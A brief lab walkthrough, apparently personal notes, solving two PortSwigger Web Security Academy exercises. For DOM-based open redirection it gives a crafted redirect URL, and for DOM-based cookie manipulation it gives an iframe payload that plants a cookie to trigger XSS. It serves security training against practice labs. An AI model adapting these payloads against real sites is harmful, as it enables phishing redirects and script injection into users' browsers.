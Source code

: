 ### DOM-based open redirection
```bash

# This lab contains a DOM-based open-redirection vulnerability. To solve this lab, exploit this vulnerability and redirect the victim to the exploit server.

Go to: 

view-source:https://aca91fec1eaebddfc063462700c2002c.web-security-academy.net/post?postId=4

Note:

<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); if(returnUrl)location.href = returnUrl[1];else location.href = "/"'>Back to Blog</a>

Enter into URL:

https://aca91fec1eaebddfc063462700c2002c.web-security-academy.net/post?postId=4&url=https://exploit-acc51fa41eecbd30c061466201920089.web-security-academy.net

.```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220528233057.png)

### DOM-based cookie manipulation
```bash

# This lab demonstrates DOM-based client-side cookie manipulation. To solve this lab, inject a cookie that will cause XSS on a different page and call the print() function. You will need to use the exploit server to direct the victim to the correct pages. 

Go to:

view-source:https://acea1f481fc06d78c00d6d6000b00008.web-security-academy.net/product?productId=1

Note:

<script>
document.cookie = 'lastViewedProduct=' + window.location + '; SameSite=None; Secure'
</script>

Go to: "Go to exploit server"
Body:

<iframe src="https://acea1f481fc06d78c00d6d6000b00008.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="if(!window.x)this.src='https://acea1f481fc06d78c00d6d6000b00008.web-security-academy.net';window.x=1;">

Store
Deliver exploit to victim

```
